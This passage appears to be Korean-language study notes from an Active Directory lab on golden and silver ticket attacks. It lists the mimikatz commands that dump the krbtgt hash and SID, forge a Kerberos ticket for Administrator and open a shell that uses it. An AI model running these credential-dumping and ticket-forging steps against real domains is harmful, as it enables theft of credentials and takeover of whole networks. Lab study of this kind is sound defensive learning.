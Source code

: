```powershell
klist
```
![[Pasted image 20250803121019.png]]
우리는 나머지 공격에 mimikatz를 사용하지 않을 것입니다.

이제 티켓을 사칭하여 사칭하는 TGT와 동일한 권한을 부여했습니다. 이를 확인하기 위해 관리자 공유를 살펴볼 수 있습니다.
![[Pasted image 20250803121043.png]]



#### Golden/Sliver Ticket ATtack Overview

골든 티켓 공격은 도메인에 있는 모든 사용자의 티켓 부여 티켓을 덤프하는 방식으로 작동하며, 이는 도메인 관리자인 것이 바람직하지만 골든 티켓의 경우 krbtgt 티켓을 덤프하고 실버 티켓의 경우 모든 서비스 또는 도메인 관리자 티켓을 덤프합니다. 
이렇게 하면 서비스/도메인 관리자 계정의 SID 또는 각 사용자 계정의 고유 식별자인 보안 식별자와 NTLM 해시가 제공됩니다. 
그런 다음 mimikatz 골든 티켓 공격 내에서 이러한 세부 정보를 사용하여 지정된 서비스 계정 정보를 가장하는 TGT를 만듭니다.


##### Dump the krbtgt hash

```powershell title="in mimikatz:"
privilege::debug
```

```powershell
# 이렇게 하면 골든 티켓을 만드는 데 필요한 보안 식별자뿐만 아니라 해시도 덤프됩니다. 실버 티켓을 만들려면 /name:을 변경하여 도메인 관리자 계정 또는 서비스 계정(예: SQLService 계정)의 해시를 덤프해야 합니다.
lsadump::lsa /inject /name:krbtgt
```
![[Pasted image 20250803121314.png]]


##### Create a Golden/Silver Ticket

```powershell
# 골든 티켓을 생성하기 위한 명령으로, 서비스 NTLM 해시를 krbtgt 슬롯에 입력하고, 서비스 계정의 sid를 sid에 입력하고, ID를 1103으로 변경하기만 하면 실버 티켓을 생성할 수 있음
Kerberos::golden /user:Administrator /domain:controller.local /sid: /krbtgt: /id:
```
![[Pasted image 20250803121458.png]]



##### Use the Golden/Silver Ticket to access other machines

```powershell
# Mimikatz에 주어진 티켓이 있는 새로운 관리자 권한 명령 프롬프트가 열립니다.
misc::cmd
```
![[Pasted image 20250803121545.png]]

 원하는 기계에 액세스하면 액세스할 수 있는 항목은 티켓을 받기로 결정한 사용자의 권한에 따라 다르지만 krbtgt에서 티켓을 가져온 경우 전체 네트워크에 액세스할 수 있으므로 골든 티켓이라는 이름이 붙었습니다. 그러나 실버 티켓은 도메인 관리자인 경우 사용자가 액세스할 수 있는 티켓에만 액세스할 수 있으며 거의 전체 네트워크에 액세스할 수 있지만 골든 티켓보다 약간 덜 상승합니다.
 ![[Pasted image 20250803121607.png]]
